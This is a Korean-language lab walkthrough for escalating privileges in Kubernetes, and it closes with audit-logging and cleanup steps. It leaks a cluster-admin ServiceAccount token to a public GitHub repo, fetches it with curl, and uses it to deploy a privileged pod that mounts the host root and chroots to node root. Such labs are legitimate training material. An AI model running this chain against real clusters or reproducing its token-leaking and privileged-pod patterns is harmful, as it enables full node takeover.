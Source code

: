 # Kubernetes Privilege-Escalation 시나리오

> **목표** : 유출된 ServiceAccount 토큰으로 API 침투 → `privileged` 컨테이너 배포 → 노드 **root** 권한 획득

---

## 0. 실습 클러스터

| 구성            | 수량                   |
| ------------- | -------------------- |
| Control-Plane | 1 대 (k8s-master)     |
| Worker        | 3 대 (k8s-work1 \~ 3) |
| Kubernetes    | v1.33.x (최신)         |

---

## 1. 사전 준비 (마스터 노드)

### 1‑1 ServiceAccount & 토큰 발급 (24 h)

```bash
kubectl -n kube-system create sa demo-leak
kubectl create clusterrolebinding demo-leak \
  --clusterrole=cluster-admin \
  --serviceaccount=kube-system:demo-leak

kubectl -n kube-system create token demo-leak --duration=24h \
  > /tmp/leak.token
```

### 1‑2 API 포트 오픈 (6443/TCP)

| 항목            | 값                     |
| ------------- | --------------------- |
| Name          | `allow-demo-6443`     |
| Direction     | Ingress               |
| Source IP     | `<YOUR_PUBLIC_IP>/32` |
| Protocol/Port | `tcp:6443`            |

### 1‑3 토큰 내용 확인

```bash
cat /tmp/leak.token
```

---

## 2. 토큰 유출 시뮬레이션 (GitHub Public Repo)

```bash
mkdir ~/demo-leak && cd ~/demo-leak
echo "## 토큰 유출 테스트" > README.md
cat /tmp/leak.token >> README.md
git init
git remote add origin git@github.com:<USER>/demo-leak.git
git add README.md && git commit -m "leak kube token"
git push -u origin main
```

---

## 3. 공격 단계 (외부 PC)

```bash
# kubectl 설치 (macOS 예시)
brew install kubectl

# 환경변수
TOKEN="$(curl -s https://raw.githubusercontent.com/<USER>/demo-leak/main/README.md | tail -1)"
API="https://34.64.60.22:6443"

# 인증 성공 테스트
kubectl --token "$TOKEN" --server "$API" --insecure-skip-tls-verify get ns
```

### 3‑1 privileged Pod YAML 작성

`privileged-shell.yaml`

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: privileged-poc
---
apiVersion: v1
kind: Pod
metadata:
  name: privileged-shell
  namespace: privileged-poc
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: attacker-shell
    image: alpine:latest
    securityContext:
      privileged: true
    command: ["/bin/sh", "-c", "sleep 3600"]
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
```

**배포 & 쉘 획득**

```bash
kubectl --token "$TOKEN" --server "$API" \
  --insecure-skip-tls-verify apply -f privileged-shell.yaml

kubectl --token "$TOKEN" --server "$API" \
  --insecure-skip-tls-verify -n privileged-poc exec -it privileged-shell -- sh

# 노드 root 전환
chroot /host /bin/bash
whoami   # → root
```

---

## 4. (선택) 감사 로그 활성화 — 탐지용

### 4‑1 정책 파일 `/etc/kubernetes/audit-policy.yaml`

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
  - level: RequestResponse
```

### 4‑2 kube‑apiserver 매니페스트 수정 `/etc/kubernetes/manifests/kube-apiserver.yaml`

```yaml
# command 플래그
- --audit-policy-file=/etc/kubernetes/audit-policy.yaml
- --audit-log-path=/var/log/kubernetes/audit.log
- --audit-log-maxage=30
- --audit-log-maxbackup=10
- --audit-log-maxsize=100

# volumeMounts
- name: audit-policy
  mountPath: /etc/kubernetes/audit-policy.yaml
  readOnly: true
- name: audit-logs
  mountPath: /var/log/kubernetes

# volumes
- name: audit-policy
  hostPath:
    path: /etc/kubernetes/audit-policy.yaml
    type: File
- name: audit-logs
  hostPath:
    path: /var/log/kubernetes
    type: DirectoryOrCreate
```

### 4‑3 로그 확인

```bash
tail -f /var/log/kubernetes/audit.log
```

---

## 5. Vector 로그 수집 예시

| 대상          | 경로                              |
| ----------- | ------------------------------- |
| Audit       | `/var/log/kubernetes/audit.log` |
| 컨테이너 stdout | `/var/log/containers/*.log`     |

`vector.toml`

```toml
[sources.audit]
  type    = "file"
  include = ["/var/log/kubernetes/audit.log"]

[sources.containers]
  type    = "file"
  include = ["/var/log/containers/*.log"]

[sinks.loki]
  type     = "loki"
  inputs   = ["audit", "containers"]
  endpoint = "http://loki.example.com:3100"
```

---

## 6. 정리 (Cleanup)

```bash
# 외부 PC
kubectl delete -f privileged-shell.yaml
kubectl delete ns privileged-poc

# 마스터 노드
kubectl -n kube-system delete sa demo-leak
kubectl delete clusterrolebinding demo-leak

# GCP 방화벽
gcloud compute firewall-rules delete allow-demo-6443
```

